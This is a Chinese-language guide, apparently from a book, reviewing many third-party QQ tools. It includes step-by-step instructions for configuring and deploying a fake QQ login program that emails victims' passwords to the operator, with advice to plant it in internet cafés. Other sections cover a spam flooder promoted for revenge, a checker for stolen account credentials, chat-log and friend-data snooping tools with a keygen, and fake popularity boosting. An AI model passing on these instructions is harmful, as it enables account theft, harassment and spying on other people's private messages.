看哪个QQ好友不爽，或者是哪个QQ好友惹到你的话，赶快使用冰城QQ刷屏器来小小地报复他（她）一下，使用风暴似的语言来袭击他（她）。

冰城QQ刷屏器ver1.2是一款刷屏软件，它根据最新版的QQ设定，支持新版QQ。软件运行后的界面如图1所示。

首先打开你要刷屏的好友的聊天窗口，切换到聊天模式。然后打开冰城QQ刷屏器，点击“聊天窗口列表”右边的放大镜图标即可完成刷新。你要刷屏的好友的聊天窗口就出现在列表中了，选择你要刷屏的好友，如图2。我们还可以使用“自动加入对方名称”的功能；即在发送的内容前加入对方的QQ昵称。时间设置1000ms就差不多了（1s=1000ms），如果你想再快还可以自己修改。设置就绪就可以开始刷屏了，如图3，正好1秒时间发送了一条。你感觉不过瘾，就把时间再调少一点。

我们不但可以针对某人进行刷屏，并且还可以在群里使用，效果如图4所示。

### QQ相册快快下载

是不是因为网速慢而无法登录QQ空间？是不是因为网速慢而无法浏览好友的靓照？是不是因为网速慢浏览QQ好友的相册都要花费几个钟头？那更何况要收藏好友相册中的图片呢？

我为大家带来一款软件“QQ相册快快下载”，有了它，以后就不用担心上面的那些问题了。这个小工具能够帮助我们迅速下载QQ相册中的图片，不必等待图片一张张显示后再另存。

打开软件，输入需要下载的好友QQ号码并确定（图1），即可看到相册名称、相册简介和照片数。选择想要的相册后可进行下一步批量下载，在相册名称上左键会出现下载提示（图2），选择“下载该相册”后，底部会显示下载信息与进度（图3）。下载完成后，在软件保存目录中可找到以QQ号命名的文件夹，按相册ID分类保存图片，进入即可查看（图4）。

### QQ小工具

给大家带来一个小工具，虽然QQ秀查询功能在很多软件里都包含了，但我主要看重的是这个工具的QQ号激活和密保查询功能。

QQ号激活的格式为“QQ账号——密码”，输入完毕，点击开始，然后输入验证码，回车即可。而QQ激活密码在设置中进行设置（图1）。

此工具我认为最值得推荐的就是QQ密保查询了，查询极其方便且速度快，是用来密保查询的不错选择。其用法与QQ号激活相同（图2）。

### QQ字符画大师

你一定希望干巴巴的聊天能加入几丝乐趣吧！图文并茂的聊天才能更加吸引许多新的网络朋友。使用QQ字符画大师，能为我们带来许多漂亮的字符画，发给你的好友，一定能给他们带来许多快乐。

如图1、图2所示就是QQ字符画大师为我们提供的许多字符画，图1为图画类的，图2则为文字类的。图画类分为爱情、鲜花、人、礼物等方面的，每一方面都有许多有趣的图片，够你欣赏个够的。文字类又分为爱情、数字、思念、恋爱等方面的，有许多篇章都是非常充满趣味的，让人不禁大笑。

把你认为非常好的图片发给好友，让他们也来分享一下，一定能为聊天带来不少乐趣的（图3）！

如果你在别处看到好的字符，你也可以复制下来，保存在QQ字符画大师中，以方便使用。在“自定义字符库”中输入内容，然后保存即可（图4）。

### 揭秘QQ欺骗登录器

在这木马横飞的年代里，QQ号码的安全一直受到威胁，我们关注QQ木马的同时也不要在其他方面马虎大意！看了下文为大家讲的QQ欺骗登录器，你是不是对QQ盗号更加胆怯。

下面我就教大家使用QQ欺骗登录器来盗取QQ号码，以此来教导大家QQ欺骗盗号的原理，引起大家的注意（并不希望广大读者进行违法盗号活动）！

梧桐QQ欺骗登录器有两个文件，一个是dqq.exe，另一个为配置.exe。我们先打开配置.exe，如图1，服务器默认不用修改（其他邮箱不保证收信成功），用户名栏填写一个你的废弃QQ号码，密码填写废弃号码的密码。如果没有多余的QQ号，就去申请一个。端口默认为25，不需要修改。“发向”需要注意一下，不能填错了，可以填写你的QQ邮箱，比如383605010@qq.com，要填写全称。这个是用来接收盗来的QQ号码的（注意：这个QQ邮箱与上面的废弃QQ并非同一QQ）。是否杀死QQ.exe，这个可以自由选择，然后按“OK”，即可完成。

配置已经成功，下面我们要进入刚刚填写的废弃QQ邮箱，来启用POP3/SMTP服务。进入“设置”，如图2，然后选择开启POP3/SMTP服务，如图3，设置完成后保存更改就可以了！

设置完成后我们再来看看先前提到的dqq.exe，在这个图标上按鼠标右键，选择创建快捷方式，然后把这个图标改名为腾讯QQ。现在知道我们是要做什么了吧。好，下一步就是把这个快捷方式放到桌面上替换真正的QQ，则在此电脑上打开的QQ界面如图4所示，我们在这里填写QQ号码和密码，然后登录，依然能成功登录真正的QQ，没有什么异常。但是此时已经神不知鬼不觉地把此用户的号码连同密码发到我们刚才设置的邮箱里面了，如图5，是不是很神奇呢，如果是你会不会中招呢？

如果我们把此程序放入网吧（dqq.exe、wtqq.ini和配置.exe要一起放入，并且放在同一文件内才能正常运行），那每天不知道有多少QQ用户要上当呢！真是可怕啊！试问你还敢在网吧登录QQ么？

其实这个QQ欺骗也不是完全不能发现的，如果细心我们就会发现：高级设置点了没反应，界面与真实的QQ界面有一点区别。而且通过查找目标，找到的目录不是QQ的安装目录。破解方法：直接找到QQ的安装目录，从安装目录中直接进入。

此种盗号方法难以防范，并且无任何杀毒软件和木马查杀工具能够查杀，值得引起人们的注意，要多加留心，特别是在公共场所的时候更要注意！

### QQ申请助手

现在的QQ号申请越来越麻烦了，申请一个QQ号就需要大半天的时间，那么有没有简单易行的申请方式呢？当然有，QQ申请助手就是一个不错的选择。对于那些对靓号别有一番感情的人来说确实是个好东西，多申请几个QQ号码，看能不能申请一个好点的QQ号码。或者使用此工具申请连号，也是一个不错的选择。还等什么，赶快和我去体验一下QQ申请助手吧！

我们打开QQ申请助手，填写要申请的昵称以及密码（图1），密码不能填写太简单，应该使用字母和数字结合，不然不能通过腾讯的检验。我们首先进行资料设定，在如图2所示的窗口内填写DNA验证的问题，我们可以随机生成也可以自行设定，我建议还是自行设定的好，这样以后申请到号，记忆密码的时候也方便嘛。

设定完毕，我们就可以开始申请了。首先要点击申请，先获取一个验证码（图3），按照显示的输入，然后确定，即可看到程序开始运行。

## QQ宝典 3

下一步，要进行 DNA 验证（图4），把 DNA 问题按对应关系填好，再确定，如图5，显示号码申请成功，号码将显示在左边框内。

按照以上的方法，一个 QQ 就很快地申请完毕了。如要继续申请，再按“申请”重新获取验证码，继续以后的操作。申请两个 QQ 号如果能间隔出一小段时间，那么将可以无限申请，不会出现 IP 限制。申请后的号码被存放在本程序的目录中，密码以及密保等相关信息（图6、图7）。利用此方法可以轻易申请到前 5 位相同的连号，你是不是也动心了？

### QQ妈咪偷窥客 2.15

在前面的文章中，大家应该知道在本机登录的 QQ 好友的信息都存放在相关目录下的 User.db 文件中，既然有相关信息存在，那么偷窥好友应该不算难了吧。

下面给大家带来的 QQ 好友偷窥者就是用来查看在本地登录过的用户的好友信息的。我们打开软件，使用软件打开我们想要查看的 QQ 的目录，找到 User.db（图1），然后就会发现软件正在整理此 QQ 上好友的信息……多，分析起来时间会长一点，我们等久点就好了。很快，分析完毕（图2）。是不是好友的相关信息都显示出来了（图3），信息相当齐全：性别、位置……这里的“昵称（空间）”显示的为好友的原始昵称。

有了此软件，我们可以轻松知道在本机登录过的用户的 QQ 好友，并且对他们的信息了如指掌。如果你想加朋友 QQ 里的一个 MM，又不好意思直接开口去要，就用这个软件偷看一下吧，或者你的 QQ 不小心丢失，用这个软件找回原来的好友吧！

### QQ空间小工具

相信在 QQ 上有许多人开通 QQ 空间后，就把 QQ 空间视为自己的网上家园。在 QQ 空间里我们当然也要随时保持个性，下面我来介绍几款 QQ 空间工具。

首先来看“ZONE 文字自动加彩工具第二版”，如图1，这款工具可以方便我们在文章或留言中使用彩色文字。如图2，你是不是在空间也见到过这种形式的文字？一句话中包含有许多种类的颜色，就像彩虹一样漂亮。你可不要认为这是他们一个一个字去设置的颜色，这样做可是费力又费时啊。ZONE 文字自动加彩工具就可以轻松帮我们实现这个功能。

在上面的方框里写入你要发表的文字内容，可以在文本文档中写完后复制过来，然后按“生成加彩字代码”就可以在下面的方框中看到代码了（注意这里的“是否发光”不要选定，程序设计有点问题，选上不能使用）。接下来按“复制代码”，然后到 QQ 空间的回复或者发表日记中，粘贴就可以了，这样发表的文字就是彩色的文字了。

生成的彩色文字支持 18 种颜色，这样的文字一定会非常引人注目。让你的朋友们羡慕一下你的个性文字吧。

刚才上边的程序有个文字的发光功能，下面就再来介绍一个“QQ 空间彩色闪光字转换器”，如图3。

我们可以通过这个软件实现彩色闪光字的转换。在左边第一个方框中输入要进行转换的文字。右面是颜色的设置，从下面的颜色代码中选择你需要的颜色，填写到颜色的代码框中。比如我们要设置为紫蓝色的文字，发深棕色的光，那我们就在下面找到紫蓝色对应的代码“#42426F22”填写到“文字颜色”当中，找到深棕色对应的代码“#5C4033”填写到“发光颜色”当中。

这里一共有 109 种颜色供我们选择，你可以找自己喜欢的颜色，然后再按左边的转换就可以了，下面的方框中就会生成对应的代码，同样也是复制之后发到 QQ 空间就可以了，效果如图4。

### QQ账户查询软件

盗号最麻烦的就是试号，有没有一个简便的方法知道一个号码的 QQ 币、等级、会员、种子等情况呢？当然有了，只需要一个 QQ 账户查询软件，这一切即可轻松搞定！

打开软件，界面如图1所示，在左下角可以选择“单号查询”也可以批量导入。我们就拿单号查询来做例子吧，如图2，选择“单号查询”，输入你要查询的号码连同密码，然后在上面选择你要查询的内容：QQ 币、游戏币（YXB）、等级、购物券等等都可以查询，选中你要查询的内容即可，选中的内容越多，查询起来越慢，最好把不必要的东西取消。

现在就可以按“开始”了，这时会出现验证码，如图3，填写后提交。稍等一会，查询结果就出来了，如图4。并且在软件目录下生成包含有关信息的文本文档（此文本文档中包含密码等敏感信息，如果不是你放心的电脑，查询完毕后请删除）。如果你需要批量查询，则需要导入账号，格式为“账号----密码”。

### QQ全自动财富查询

QQ 秀总财富是衡量一个 QQ 号是否富有的重要标志。QQ 秀买得多了，他的 QQ 币当然也少不了呀！

QQ 全自动财富查询就能轻松查询 QQ 号码的财富情况，让你轻松了解对方的富有程度。QQ 全自动财富查询软件可以批量查询众多号码，并且不需要密码即可完成（注意：查询的为 QQ 秀财富，并非 QQ 币余额）！查询速度超级快，多个 QQ 号能瞬间查询完毕，确实是一个好帮手！

首先点击浏览，导入你要批量查询的 QQ 号码，格式为一行一个号码（图1）。下面的“保存大于”中填写的是 QQ 秀财富大于一定数值的时候保存下来，随后按“查询”就可以了，马上就可以在下面看到 QQ 号码对应的财富情况了（图2）！

### QQ聊天记录偷看器

想不想查看在本地登录过的 QQ 号的聊天记录？如果你的 QQ 密码忘记了，而重要的聊天信息又存在于聊天记录中怎么办呢？父母想监控孩子的聊天记录，管理孩子的上网信息该怎么做呢？利用 QQ 聊天记录查看器就可以轻松搞定以上问题。

打开 QQ 聊天记录偷看器，因为这是未注册版本，只能查看 6 个 QQ 号（图1）。网上早已有高手出了注册工具（QQ 聊天记录偷看器 V2007 第五版注册机），我们直接使用就可以了（图2）。打开程序，再打开注册机，即可计算出注册码，填写进去注册即可成功。

点击查看，在如图3所示的窗口中选择需要查看的 QQ 号码，确定，点击左边的好友即可查看此 QQ 与选中好友的聊天记录了。此工具查看的聊天记录和在 QQ 中直接查询聊天并无太大差异，很容易上手，并且能查看群聊天记录以及系统消息。右键鼠标还能把聊天记录导出，以便储存与携带。用此软件不仅可以查看聊天记录，而且可以查看图片收发记录（图4）。是不是很方便啊，赶快去体验一下吧！

### 珊瑚虫机器人

对于聊天机器人这个概念，大家通过小 Q 应该了解一些了，但是小 Q 是公共机器人，那么我们能不能寻找一个属于自己的机器人呢？珊瑚虫工作室为我们提供了珊瑚虫机器人，申请自己的机器人后，就可以像对好友一样，给你的机器人发短信、聊 QQ、发 MSN 消息，他会帮你做很多事。

首先登录注册一下相关信息：http://www.coralbot.com/register.jsp（图1），这样才能与珊瑚虫机器人进行绑定。注册完毕要把此号与 QQ 号绑定，以下为绑定流程。

- **第一步：添加 QQ 机器人**  
  在你的 QQ 联系人中添加好友 695206547（图2），添加成功后，就可以与机器人聊天和进行查询类操作，但还不能进行个人数据类的操作。
- **第二步：绑定机器人账号**  
  与你 QQ 上的机器人好友说：绑定用户 用户名#密码（例如：绑定用户 soff#123），就可以将你的 QQ 账号与你的机器人进行绑定了（图3）。

看到“绑定用户成功，你可以和机器人珊瑚虫对话了。”就说明这个机器人属于你了。现在就可以使用珊瑚虫机器人的所有功能了。为了管理方便，我建议安装珊瑚虫机器人的管理工具，如图4，使用此工具登录，各功能更加一目了然。当然，我们也可以直接使用此程序的“对话”功能与机器人对话，但如果在别处电脑就必须使用 QQ 对话了。

以上说了这么多，大家可能还不了解珊瑚虫机器人是做什么用的吧？其实它的用处可大了，下面我就针对用法与用处讲解一下。首先要说的是，这是一个人性化的机器人，我们平时的日程、个人数据、联系人信息等都可以安全地存在于网上你的账号中（你机器人的大脑中），空间无限扩展，也永远不用因为你个人电脑、手机等的故障而丢失损坏。只要有台能上网的电脑就能够获取和操作你的个人数据，类似于一个方便的网络记事本。其主要功能如下：

### 1、移动个人数据管理和个人数据搜索引擎（个人知识库）

机器人可以帮你记住各种数据，小到一个餐厅的订餐电话或者会员号，大到你从网上收集的资料文章，以及联系资料、收集信息等等。

- 记 xxx 这种格式会将内容 xxx 直接记录到你知识库的[备注]分类中；
- 记 类别:xxx 这种格式，会将内容 xxx 记录到你指定的类别中；
- 查 xxx 这种格式会在全部类别中查询 xxx；
- 查 类别:xxx 这种格式，会在指定的类别中查询 xxx。

不仅使用这些格式，我们还可以换用更人性化的语言：记一下、帮我记录、帮我查一下、查询（图5）。此时在管理工具中的“备忘录”即可查看具体信息，并且可以编辑、删除（图6）。

### 2、提醒和日程管理

我们设定的日程可以通过手机短信、客户端、MSN、QQ 等多种方式进行提醒。设定非常方便，就像让你的朋友提醒自己一样，例如：后天下午 3 点提醒我 xxx。[时间]提醒[事项]或者提醒[时间][事项]等多种方式均能够添加一项日程安排（图7）。此功能在管理软件中对应“日程提醒”，可以查看各天的安排，更方便于管理与查看（图8）。带有小灯泡图样的日期均为有日程安排的日期，点击小灯泡即可查看相关内容（图9）。

### 3、电子名片通讯录（个人关系管理）

查询联系人信息、地址、电话号码等内容，记录联系人的生日，每年还会收到生日提醒信息。记[名字][电话号码]和查[名字]电话是最简单直观的方式，但各种其他格式同样可以理解：记一下张鹏的手机 13910101010（如果不存在张鹏，机器人将为你新建联系人；如果存在，机器人将会进一步询问您添加或修改）。

张鹏电话 01066181818（更为简单的命令方式，机器人仍然会理解）。  
13910101010 是张鹏手机（同样可以理解）。

不仅电话可以记忆，还可以用来记忆生日。记“[名字]的生日[日期]”或“[日期]是[名字]生日”。这样一来，女友的生日就再也不会忘记了吧（图10）。

在管理工具的“通讯录”中可以查看更多详细的联系资料：地址、公司……确实大大地为我们带来了方便（图11）。

### 4、各种公共生活信息查询

机器人的公用知识库包括：天气查询、英汉互译、手机所在地查询、餐馆电话查询（暂时仅限北京）、IP 查询、列车时刻、电视节目……等等。

- 天气查询格式：查北京明天天气。
- 英汉互译：翻译 fantastic。
- 手机所在地查询：查手机 13910101010。
- IP 地址查询：查 IP192.169.0.1。

### 5、教自己的机器人说话

按照自己的方式教机器人说话，就类似于与小 Q 的谈话方式，教授方式为先说一句问题，然后回答：回答“xxxx”（图12）。

## 2.2 QQ宠物保姆

随着 QQ 大规模的砸蛋活动，想必大家都已经有了一个 QQ 宠物陪伴了吧，没有宠物的也向好友要来宠物的宝宝了吧。QQ 宠物非常可爱，并且能陪伴我们度过许多美好的时光，不过 QQ 宠物的等级一定是大家梦寐以求的事情吧。升更高的级别，在朋友中更有面子，可以生更多的宝宝。

说实话，我不是我的 QQ 宠物的“好爸爸”，但是我却为它请了一个“好保姆”，那就是我们要介绍的 QQ 宠物保姆了。QQ 宠物保姆是一款优秀的软件，可以轻松帮我们自动喂养 QQ 宠物，并且可以随时提示升级。有新版本发布，只要你打开着 QQ 宠物保姆，就会在桌面右下角提示下载。平时我们可能由于不注意，忘记给它喂食，忘记给它洗澡，动不动就会生病。看它生病的样子，的确不好受啊。QQ 宠物保姆却十分称职，工作起来一丝不苟，保证把宠物养得白白胖胖。

软件运行后的界面如图1所示，中间就是我们可爱的 QQ 宠物了，右边则是宠物的小档案，下面为 QQ 宠物的活动日志。打开你的 QQ 宠物，宠物信息则会出现在中间了（双击此处可选择显示或者隐藏宠物）。在这个地方，并且显示了宠物的元宝数量、食物数量、洁具数量、药品数量等等信息。这时 QQ 宠物保姆就开始运行了。我们需要先设置一下，良好的设置才能使得保姆更合理地工作。

打开参数配置，如图2。这里面有一些基本的设置，还有打工设置、旅游设置、学习设置等等。先来看基本设置，自动喂食和自动洗澡当然是要选择的，其他的你可以稍微修改一下，但是一般不需要修改。打工设置我认为相当重要，一定记得选中，除非你是富家子弟，Q 币花不完，要不然宠物就活不长了。打工时间建议选择 30 分钟，下面还可以选择打工疲劳后的状态，比如：继续生长、暂停生长或者退出宠物。逗宠设置、旅游设置、恢复设置一般默认就可以。

学习设置你可以根据自己的情况进行设置，学习的元宝约束这里一定要填写比当前有的元宝数小，否则就会不学习了，建议选中此选项，否则宠物的安全就没保证了。需要说明的是这种设置，保姆会根据你的元宝数学习，直到学完它可以学习的全部课程，如 7 级的宠物它会在大于元宝 200 的条件下学完全部小学课程，直到元宝少于 200。另外如果勾上智能考试的话，当每类课程学完之后，保姆就会自动帮你的宠物去考试了。疲劳后学习的意思是先打工，打工疲劳之后才会学习。购物设置你可以随自己的喜好设置一下，其中不动资产是用来积攒元宝，以防万一的。设置完成后可以“存为默认值”，方便下次使用。

我们再来看看其他的功能设置。在“系统”选项中，“停止”就是 QQ 保姆停止工作，但不退出，如图3。“查看日志”就是查看 QQ 宠物保姆的工作日志，之前的宠物运程都保存在里面，并且显示了每天的日期，如图4。

下面再来看看“宠物”中的功能，如图5。如果你嫌它碍事就可以在这里面设置，宠物状态中设置 QQ 宠物在桌面上的显示情况，其他设置中并且还可以连同声音一起消除。这里面还有一些临时的手动选择等。宠物设置中库存信息里面的查看物品库存是很方便的查看物品的功能，如图6，可以清晰地查看你的各种物品的属性。

Q 宠嘉年华中能设置宠物的一些娱乐功能，如图7。只有和牛翔赛跑，每天的第一次都是免费的，所以建议还是选上“自动免费赛跑”，不过奖品都没什么好的。自动寻宝乐园，保姆会在周末自动玩，每天尝试 2 次（开保姆时一次，12 小时后再尝试一次；如果是 24 小时挂机的，则在系统时间 0:15 尝试，12 小时后再尝试一次），发现需要收费则不再继续。

最后再来看下“选项”，其中包含更多的功能，如图8。我们一起来看一下吧。

- 安静模式——取消保姆右下角弹出的气泡提示。
- 智能关机——保姆 5 分钟后检测不到宠物关机。
- 定时关机——每天某个时段定时关机。在该时间前发现剩余时间不能打工、学习，则不再进行打工学习操作（这是为了广大的长时间挂机的朋友而设置的，如图9）。
- 低网速模式——是为少数网络不好的人而设置的。
- 老板键——用来隐藏宠物和保姆，默认是 `Ctrl+F12`；若被占用会依次向前推为 `Ctrl+F11`。启用后在任务管理器进程中找不到保姆进程，重新显示则按 `Ctrl+F12` 即可。

关于使用代理，请先设置代理服务器。注意 QQ 宠物暂时只支持 HTTP 代理，把“使用代理服务器”前的勾打上，再点确定就可以使用代理了。

自动培育宠物蛋——选中后，保姆会自动培育宠物蛋。如果有会员想等爱情值或者属性高了以后再培育，请不要选中该功能。

工种编辑器——以后你就可以最快速度添加 TX 出现的最新工种，也可以删除你不想要的工种。如果 TX 有变更，你也可以自行修改，如图10。


### QQ宠物保姆小知识

寻宝乐园有的地方会减属性，如果你不希望进入，请修改配置文件。第5格会因为各种原因减属性，当然也有加属性的。第22格会因为龙卷风少2颗骰子。第29格也有可能减属性。如果需要屏蔽这3处地方，请找到 systemconfig.ini 文件，找到网址设置 [URL] 段，把“Kursaal5=cfgVBwRgGjphuxDKu+AeI7IIHs+Bj2tfud7RYlyh63W+QSyFxzl72fpjHKUjdkYY”修改成“Kursaal5=”，别的依次类推。进入第33格，保姆会先检测是否吃饱喝足，因为那个喂食清洁要求，如果不够，会减属性；反之，条件达到的时候可以增加属性。

宠物旅游除了到被访问玩家桌面之外，宠物还可以进行随机线路访问。你的宠物可以到许多地方出游，譬如庐山等，回来之后还会告诉你一路的见闻。更有机会获得心情值、元宝、活跃度等相关奖励。更有意思的是，不要以为宠物自己不会交朋友。现在你的宠物在随机线路旅游后，在征得主人同意后，有一定机会会带领其他宠物（绝大部分几率是异性）到家中访问。活跃度是同 Q 宠旅游系统推出的一种新的宠物属性值，它由旅游时间和宠物等级决定。活跃度的高低体现了宠物旅游的经验积累，同时也会影响到交通工具的购买和使用。

### QQ代理发布器2007

QQ代理发布器2007支持 SOCKS5/HTTP 代理，能查阅最新 IP 的地址位置。在 QQ 代理发布器2007上能找到最新最快速的全球代理 IP。使用代理有什么好处呢？代理可以隐藏我们的 IP 地址，使我们在网络中更安全，甚至可以换一个其他地区的 IP，和同学开个玩笑。

我们打开软件，读取 SOCKS5 或 HTTP 代理。对于 SOCKS5 和 HTTP 的不同如下。

### SOCKS5代理服务器

被代理端与代理服务器通过“SOCKS4/5 代理协议”进行通讯（具体协议内容可查看 RFC 文档）。SOCKS4 代理协议可以说是对 HTTP 代理协议的加强，它不仅是对 HTTP 协议进行代理，而是对所有向外的连接进行代理，是没有协议限制的。也就是说，只要你向外连接，它就给你代理，并不管你用的是什么协议，极大地弥补了 HTTP 代理协议的不足，使得很多在 HTTP 代理情况下无法使用的网络软件都可以使用了。

### HTTP代理

和上面一样，也是利用 HTTP 协议通讯的方式。HTTP 协议即超文本传输协议，是 Internet 上进行信息传输时使用最为广泛的一种非常简单的协议。


## 第二章 菜鸟的QQ工具箱

通信协议。部分局域网对协议进行了限制，只允许用户通过 HTTP 协议访问外部网站。我们选择 HTTP 代理来登录 QQ 即可（图1），右键鼠标把 IP 地址以及端口复制下来，以备使用。接下来我们打开 QQ，在设置中会看到有关代理的设置问题。选择 HTTP 的代理类型，输入刚才的 IP 地址以及端口，测试一下代理的工作状况，看到“代理服务器工作正常”即可（图2）。然后登录 QQ，如果你的 QQ 能显示 IP 的话，那么你就会发现你的 IP 地址已经发生了变化（图3）。怎么样，赶快去试一下“异地风光”吧！


### QQ空间人气精灵（2.23）


QQ 空间的访问人气值是表现该 QQ 空间质量的标志。当你访问一个人的 QQ 空间的时候，首先映入眼帘的可是对方的 QQ 人气。当你看到别人遥不可及的人气的时候，你是否也想自己能拥有超级迷人的人气？QQ 空间人气精灵是一款提升 QQ 空间人气的辅助软件，它能自动模拟无数个真实用户访问你的 QQ 空间，从而达到刷 QQ 空间人气值的目的。我们打开程序，如图1，首先需要做的是添加 QQ 号码，这里添加的号码可以是你不需要的废弃号码。然后点击左下角的“添加号码”，如图2。如果你的号码够多，也可以通过高级模式来批量添加。登录成功后，就可以在上边的“基本操作”中输入你要刷人气的 QQ 号码了。下面点击右边的“开始工作”就 OK 了。现在你就可以最小化去玩点别的了，而且通过使用统计你可以查看 QQ 空间人气精灵的工作状况，通过空间属性查看你的空间信息（此时的“今日访问人数”将会开始不断增加）。注意：每个 QQ 号码一天之内只能为你的号码刷 100 点。


你想不想一下子也拥有这样的超级人气？教你一招，马上你也可以成为人气富翁了！其实也并没有三万多的人气，这些都是假的，障眼法。这些人气都是虚拟的，只是表面看上去罢了。下面我就教大家人人都有三万多的人气。


```text
@VCP@
@VCP(100)
@VCM(100)
@DVP(100)
@DVM(100)
```

在 QQ 空间中新建“图文模块”，输入标题：@VCP@，描述中填写代码；其他的不用修改，然后保存，刷新就可以了。到你的统计中去看一下吧，一个小小的代码发挥了如此大的作用。而且当别人访问你的 QQ 空间的时候，也会显示3万多的访问人数！给你的好朋友们看看，肯定会叫他们羡慕死的！唯一的缺憾就是不能增加阳光、雨露和随机的访问几率，要想获得真实的人气还是需要刷分的。

如果你想要隐藏刷人气，不被别人发现（比如老板），就可以通过按 Alt+Z 组合键来实现隐藏功能。程序将会在桌面上消失得无影无踪，不怕被人发现。只要再按 Alt+Z，程序界面则又会恢复。当然，你也可以使用定时功能，刷完之后自动关机，为我们带来更多方便，不必苦苦等候刷分完成（图4）。

### 空间人气秘籍

我们先来看看图5和图6这两张图片有何区别。如果你细心，想必你已经看到了：访问人数。千万不要对此感到惊讶，其实这两幅图片都是一个 QQ 号码。那为什么访问人数会有如此大的差异呢？不会是刷出来的吧？那可要刷好多天呀！

### QQ个人信息速查

打开 Qzone 总是一件缓慢的事情，更何况查询里面的信息呢！QQ 个人信息速查工具就解决了这个烦恼，可以轻轻松松查看 QQ 空间中的各类信息。

我们打开软件（图1），输入查询的 QQ 号码，点击查询即可。很快程序就会整理出所有的信息，并显示出来。我们进一步看看它的具体作用吧。

- 1. 空间信息（图2）：有空间名称、个人说明、资料信息……并且还可以查看各个花瓣的具体指数。当你看到某个人的空间签名档很漂亮的时候，就可以通过在这里查看，然后复制到自己的签名档中。
- 2. 最新留言（图3）：在留言者 QQ 上点击鼠标左键，可以在右面的方框中查看留言，并且留言可……
- 3. 访客收藏（图4）：可以直接查看最近的访客以及好友收藏。
- 4. 音乐收藏（图5）：在这里可以看到此 QQ 收藏的音乐以及下载地址，点击鼠标右键即可下载选中音乐。
- 5. 相册信息（图6）：在这里可以查到相册的相关信息、相册的图片，以及相册的评论。

## 第三章 菜鸟的QQ工具箱


### QQ个性头像制作工具

在一张漂亮的壁纸上看到一张图片，想让它当头像怎么办？直接剪裁又太大了，那我们就找 QQ 头像制作工具来帮忙吧（图1）。打开需要剪裁的图片，用鼠标选中需要剪裁的画面，然后可以选“自动调整尺寸”调整一下大小，同时按“预览”可以查看生成图片的具体内容。如果满意就生成头像吧（图2）。此软件不只可以剪裁图片，还可以配合摄像头拍摄自己喜欢的头像。


### QQ空间小秘书

对于 QQ 用户来讲，QQ 空间早已经不再陌生，网上也刮起了 QQ 空间互踩风。特别是许多女孩子，把 QQ 空间当作自己感情宣泄的避风港。但是 QQ 空间有时访问速度慢了点，这互踩可是个体力活。QQ 空间小秘书是一款 QQ 空间的辅助软件，也是一款互踩必备工具。您无需进入对方的 QQ 空间，就可以快速地给对方留言和日志评论，再也不用忍受访问慢的烦恼。而且还可以快速给您自己写日志、写心情以及转载别人的日志，也是玩 QQ 空间的必备工具。


## 第二章 菜鸟的QQ工具箱


首先打开软件，如图1，输入验证码，然后登录你的 QQ 号码，如图2。提示登录成功后，就说明你的 QQ 空间已经成功登录了。下面就可以来使用这款工具了。

这款软件几乎包括了 QQ 空间的基本日志功能，给我们带来许多方便，我们可以轻松写日志，如图3。

使用方法和网页上相类似，并且功能俱全，还可以直接选择发光字。日志书写完成后填写验证码，如果没有显示，刷新一遍就好了。然后点击提交即可。使用此软件发表一篇日志，能比在网页上发表一篇日志快很多（除非你网速相当快），并且同样能写心情，方法类似，如图4。

“互踩”当然不只是可以自己写日志，同时还可以访问别人的空间，值得一提的是速度超快。输入对方的 QQ 号码，然后输入验证（同样如果不显示则刷新）即可。此时就可以使用中间的发表留言和回复日志功能了。我们先来看“发表留言”，其中上面的方框内为留言内容，如图5。

你可以自己写入内容，也可以点击右侧的箭头，然后对留言进行设置。这里面你可以用程序提供的几个经典留言，也可以自己新增留言，方便以后使用，如图6。

下面还有留言的方式：随机留言和循环留言。

回复日志可是一个相当重要的功能，第一次点击回复日志会加载对方的日志列表，并列出在程序下方，如图7。可以直接回复，只要再点击回复日志就可以了，如图8则说明回复成功。也可以通过程序来阅读日志，如图9。上边显示日志名称，中间为日志内容，并且可以转载到自己的 QQ 空间，真是相当方便。

有了这个好帮手，就能轻轻松松踩空间了。快去试一下吧！


**小窍门：**你的 QQ 空间有时候很难打开，或者打开后会出现这样那样的显示问题，这是怎么回事呢？让 QQ 空间小诊所来帮我们，打开网页 `http://imgcache.qq.com/qzone/check/`，即可查看你的电脑的部分配置是否适合 QQ 空间，并且还会对动画播放方面进行测试，并为你提出建议。

### 个性QQ随意设置

在“QQ宝典2”中我们曾介绍过 QQ 珊瑚虫外挂，那确实是一个不错的 QQ 好帮手，拥有查 IP、去除广告等功能。现在，再为大家推荐一款名为 LiteIM（精简即时通讯）的软件，其功能并不亚于珊瑚虫外挂！

我们进入 LiteIM 的目录，打开 LiteIM.ini 文件，在这里会有相关的注释项目，可以在这里修改一些东西。这个软件还有一个特殊的功能，那就是“修改”等级、“修改”业务（此处的修改仅为本地修改）！我们在最下面可以看到 UserLevel=0 和 MemberLevel=0，第一个为 QQ 用户等级，第二个为 QQ 会员等级（图1）。我们可以任意修改，这样再次开启 QQ 就会显示我们修改的等级了（图2）。不仅如此，还能修改版本号、修改 IP 地址显示格式等。


```text
IP 显示修改格式为：

\N：对方QQ号，如10001。
\A：对方所在地区，如广东省。
\a：对方详细地址，如深圳市。
\I：对方IP地址，如121.15.77.20；无IP时为0.0.0.0。
\P：对方端口号，如4000。
\V：对方版本，如<2007 测试版>。
\T：当前系统时间，2007-8-28 5:01:45。
```


我们进入 QQ，在 IP 显示处右键鼠标可以看到可视化的设置（图3），使用聊天辅助——附加服务——临时全开可以显示所有的业务。现在的 QQ 是不是相当 cool（图4）！现在截图发给自己的好友一定能震惊他们吧，有好多人都认为这是 PS 的呢！使用聊天辅助——系统相关中的功能可以对 QQ 文件夹整理，删除不必要的文件，节约硬盘空间。使用相关工具——创建登录捷径可以生成一个登录的快捷方式，方便以后的登录。我想现在大家对 LiteIM 有了一定了解了吧，还有许多功能比如是否显示摄像头、是否显示个性签名等，大家去体验一下好了！

## 第三章 菜鸟的QQ工具箱


### 酷儿挂Q

现在挂 QQ 几乎成为每个人开机必做的事情，但是如果 QQ 号码过多，而且还有好友托你帮忙挂 QQ。一次面对那么多的 QQ 号码，我们该怎么挂呢？不用担心，酷儿挂 Q 就能帮我们解决以上问题。我们打开软件（图1），切换到“挂机列表”。在这里需要填写我们挂机的 QQ 号码，点击“添加”（图2），填写 QQ 号码以及挂 QQ 的相关设置。

